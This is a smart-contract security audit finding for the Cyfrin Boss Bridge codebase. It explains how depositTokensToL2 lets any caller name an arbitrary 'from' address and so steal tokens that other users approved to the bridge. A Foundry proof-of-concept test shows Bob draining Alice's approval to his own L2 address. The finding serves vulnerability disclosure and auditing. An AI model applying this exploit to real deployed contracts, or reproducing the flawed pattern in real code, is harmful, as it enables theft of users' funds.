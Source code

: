 ### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L70-L77

## Summary
We can steal any token approved by any user to the `L1BossBridge` contract by transferring it to the bridge and minting it on the L2.

## Vulnerability Details
The `depositTokensToL2(...)` function takes in a `from`, `l2Recipient` and `amount` parameter. In the function body a `safeTransferFrom(...)` call is made to the token, where `amount` funds are transferred from the specified `from` address to the vault. An attacker is able to specify this `from` address as a function argument. A `Deposit` event is then emitted by the contract indicating a successful deposit, where the `l2Recipient` is then permitted to mint the token on the L2. As a result of this an attacker can specify any `from` address for a user that has previously approved `token` (and other tokens when they are added) to be spent by the `L1BossBridge` contract, and set him/herself as the `l2Recipient`. In doing so stealing funds of the user on the L1 side and minting it to the attacker on the L2 side.

## Impact
Loss of funds for any user approving the `L1BossBridge` to spend funds on the L1.

Test:
```
function test_TokenApprovalThief() public {
        // Create users
        address alice = vm.addr(1);
        vm.label(alice, "Alice");

        address bob = vm.addr(2);
        vm.label(bob, "Bob");

        // Distribute tokens
        deal(address(token), alice, 10e18);

        console2.log("Token balance alice (before):", token.balanceOf(alice));
        console2.log("Token balance bob (before):", token.balanceOf(bob));

        // Alice approves bridge
        vm.prank(alice);
        token.approve(address(tokenBridge), type(uint256).max);

        // Bob calls depositTokensToL2 with alice as from
        vm.prank(bob);
        tokenBridge.depositTokensToL2(alice, bob, 10e18);

        console2.log("Token balance alice (after):", token.balanceOf(alice));
    }
```
